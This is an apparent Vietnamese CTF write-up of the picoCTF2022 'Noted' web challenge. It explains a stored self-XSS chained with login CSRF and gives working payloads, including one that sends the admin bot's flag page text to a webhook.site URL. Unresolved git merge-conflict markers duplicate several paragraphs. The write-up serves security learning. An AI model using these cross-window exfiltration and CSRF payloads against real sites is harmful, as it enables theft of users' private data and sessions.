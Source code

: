 ```yaml
---
title: Noted - picoCTF2022
description: From picoCTF2022
author: to^
date: 2022-04-04 22:08:00 +0700
categories: [WecSec, CTF, picoCTF2022]
tags: [csrf, xss]     # TAG names should always be lowercase
img_path: /assets/img/
image:
 src: noted/pico.png
 alt: picoctf logo
 width: 1000
 height: 400
---
```


## _Sơ lược về challenge_
Trang gồm có hai chức năng `Login` và `Register`
![overview1](noted/overview1.png)
_overview1_

Tiếp đó ta thể tạo note và gửi link để report.
![overview2](noted/overview2.png)
_overview2_

<<<<<<< HEAD
## _Phân tích_
Sau khi thử thì mình nhận thấy có lỗi xss ở đây
[![test note](noted/overview2.png)](https://user-images.githubusercontent.com/77546253/161594213-8d0c1949-c9f1-410b-ae70-890f10590c89.mp4 "Link Title")
_Click to play video_
Suy ra bài này là một dạng stored self XSS
=======
## Phân tích
Sau khi thử thì mình nhận thấy có lỗi xss ở đây
[![test note](noted/overview2.png)](https://user-images.githubusercontent.com/77546253/161594213-8d0c1949-c9f1-410b-ae70-890f10590c89.mp4 "Link Title")
_Click to play video_
Suy ra bài này là một dạng Self Store XSS
>>>>>>> update 'noted' post

Cũng tương tự như các bài xss khác, chức năng report sẽ làm con bot (đóng vai trò như admin) access đến link mà ta gửi.
![report](noted/report.png)
_report.js_
Bot sẽ tạo một tài khoản với tk, mk random và tạo một note với content chính là flag. Sau đó sẽ access tới url được report.

Trong `web.js` có thể thấy server dùng csrf token trong các route.
![csrf](noted/webjs.png)
_web.js_

<<<<<<< HEAD
## _Khai thác_
Bởi vì sau khi vừa tạo note thì phiên hoạt động của bot vẫn còn hiệu lực nên từ đó ta sẽ nghĩ cách để có thể lấy nội dung từ trang `/notes` của con bot (chứa flag) và gửi đến webhook hoặc có thể tạo một note mới với content là flag ở account của ta.
=======
Bởi vì sau khi vừa tạo note thì session của bot vẫn còn lưu trên trình duyệt nên từ đó ta sẽ nghĩ cách để có thể lấy nội dung từ trang `/notes` của con bot (chứa flag) và gửi đến webbook hoặc có thể tạo một note mới với content là flag ở account của ta.
>>>>>>> update 'noted' post

### Gửi đến webhook
Cách này không đòi hỏi phải extract csrf token
![flow1](noted/flow1.png)
_flow1_

<<<<<<< HEAD
Đầu tiên ta khởi tạo 1 account với `tk,mk: bla` mục đích là lưu xss script có vai trò gửi nội dung của window chứa flag tới webhook của ta.
=======
Đầu tiên ta khởi tạo 1 account với `tk,mk: bla` mục đích là lưu xss script có vai trò gửi nội dung của `window` chứa flag tới webhook của ta.
>>>>>>> update 'noted' post
XSS note sẽ có nội dung như sau:
```html
<script>
  if (window.location.search.includes('pwn'))
    window.location = 'https://webhook.site/<id>?' + window.open('', 'flag').document.body.textContent
</script>
```
Ở đây ta dùng `window.location.search.includes` là để tránh việc bị redirect liên tục tới webhook.

Tiếp theo ở exploit server ta tạo một `index.html` với layout
![exploit server](noted/exp_sv.png)
_flow2_

Csrf form sẽ là:
```html
    <form action='http://0.0.0.0:8080/login' method='POST' id='csrf' target='_blank'>
        <input type="text" name="username" value="bla">
        <input type="text" name="password" value="bla">
    </form>
```

Script để exploit sẽ là:
```html
    <script>
        window.open('http://0.0.0.0:8080/notes', 'flag');
        setTimeout(`csrf.submit()`, 1000);
        setTimeout(`window.location='http://0.0.0.0:8080/notes?pwn'`, 1500);
    </script>
```
Trong csrf form ta thêm thuộc tính `target` và gán giá trị bằng `_blank` để reponse trả về từ `action` sẽ mở ở tab mới nếu không các dòng javascript ở bên dưới sẽ không được thực thi.

Để hiểu rõ hơn về cách khai thác này ta sẽ đặt tất cả lại với nhau:
 - Đầu tiên gửi cho con bot link exploit server, bot sẽ truy cập tới exploit server hay cụ thể là `index.html`
 - Đoạn script ở `index.html` sẽ open new tab với tên là `flag` (sẽ không yêu cầu nhập username, password bởi vì phiên hoạt động của bot vẫn còn và cửa sổ này sẽ chứa note với content là flag)
 - Sau 1s thì submit csrf form lúc này bot sẽ login vào account ta vừa tạo và kết quả hiển thị ở `new blank tab`
 - Sau 1,5s thì chuyển hướng từ exploit page đến `http://0.0.0.0:8080/notes?pwn` lưu ý rằng ở đoạn code trước ta đã đăng nhập vào tài khoản `bla` nên bây giờ cũng sẽ chuyển hướng tới `/notes` của `bla`. `?pwn` dùng để trigger store xss và gửi nội dung cửa sổ `flag` đến webhook.
Có thể thấy lúc này ta không hề vi phạm `same origin policy` khi lấy `document.body.textContent` từ 
cửa sổ `flag` bởi vì chúng đều thuộc cùng domain, port và scheme.

Và kết quả:
![result](noted/result.png)
_result_

### Extract csrf token
Ở cách này thì form csrf vẫn như cách kia nhưng có sự thay đổi về xss note và script exploit

Script exploit:
```html
    <script>
        window.open('http://0.0.0.0:8080/notes', 'flag')
        setTimeout(`csrf.submit()`, 1000);
    </script>
```

XSS note:
```html
<script>
fetch("/new").then(r => r.text()).then(r => {
    //extract csrf token từ '/new'
    let csrf = r.match(/_csrf" value="([^"]*)/)[1];
    //lấy flag
    let flag = window.open('', 'flag').document.querySelector("body>div>p").innerHTML;
    //tạo note với content là flag ở account của ta
    fetch("/new", { method: "POST", body: JSON.stringify({ _csrf: csrf, title: "PWNED!!!", content: flag }), headers: { 'Content-Type': 'application/json' } });
});
</script>
```
Kết quả:
![result'](noted/result'.png)
_result_

## _Tham khảo_
<https://docs.abbasmj.com/ctf-writeups/picoctf-2022#noted>




